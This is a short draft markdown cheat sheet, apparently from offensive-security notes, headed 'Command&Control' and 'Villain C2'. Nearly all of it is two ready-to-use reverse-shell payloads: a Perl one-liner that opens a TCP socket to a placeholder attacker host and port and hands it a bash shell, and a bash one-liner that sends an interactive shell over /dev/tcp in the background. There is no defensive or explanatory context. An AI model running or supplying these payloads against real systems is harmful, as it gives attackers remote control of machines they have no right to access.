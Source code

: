 # Command&Control [draft]

## Villain C2

``` perl
# simple perl payload
perl -MIO::Socket::INET -e '$s=IO::Socket::INET->new(PeerAddr=>"*LHOST*",PeerPort=>*LPORT*,Proto=>"tcp");open(STDIN, "<&", $s);open(STDOUT, ">&", $s);open(STDERR, ">&", $s);exec "/bin/bash"'
```

``` bash
# very simple bash payload
nohup /bin/bash -c 'bash -i >& /dev/tcp/*LHOST*/*LPORT* 0>&1 &'
```
